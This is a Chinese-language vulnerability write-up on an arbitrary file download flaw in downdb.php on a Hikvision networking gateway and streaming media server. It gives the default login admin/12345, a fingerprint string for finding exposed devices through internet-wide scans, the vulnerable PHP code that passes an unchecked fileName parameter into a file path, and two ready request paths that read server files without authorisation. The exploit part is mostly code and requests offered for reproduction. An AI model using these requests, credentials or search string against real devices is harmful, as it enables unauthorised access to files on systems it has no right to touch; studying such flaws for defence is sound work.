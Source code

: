 # HIKVISION 联网网关 downdb.php 任意文件读取漏洞

## 漏洞描述

海康威视 联网网关 在页面 downdb.php 的参数fileName存在任意文件下载漏洞

## 漏洞影响

<a-checkbox checked>HIKVISION 联网网关，流媒体管理服务器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"杭州海康威视系统技术有限公司 版权所有"</a-checkbox></br>

## 漏洞复现

默认密码：admin/12345

![img](/assets/PeiQi-Wiki/img/1628150554555-c84e3f6d-2054-4587-950c-5234bc7a12e8.png)

出现漏洞的代码文件为downdb.php，可以未授权下载任意文件：

```php
<?php
$file_name=$_GET['fileName'];
$file_dir = "../../../";
if   (!file_exists($file_dir.$file_name))   {   //检查文件是否存在  
  echo'<script> alert("文件不存在!");window.history.back(-1);</script>'; 
  exit();

}else{	
	$file = fopen($file_dir . $file_name,"r"); // 打开文件
	// 输入文件标签
	Header("Content-type: application/octet-stream");
	Header("Accept-Ranges: bytes");
	Header("Accept-Length: ".filesize($file_dir . $file_name));
	Header("Content-Disposition: attachment; filename=" . $file_name);
	// 输出文件内容
	echo fread($file,filesize($file_dir.$file_name));
	fclose($file);
	exit();
}
?> 
```

验证POC：

```
/localDomain/downdb.php?fileName=web/html/data/login.php
/localDomain/downdb.php?fileName=web/html/localDomain/downdb.php
```



![img](/assets/PeiQi-Wiki/img/1628152149896-c63bae3a-6cc6-402a-b234-cacb307547fc.png)



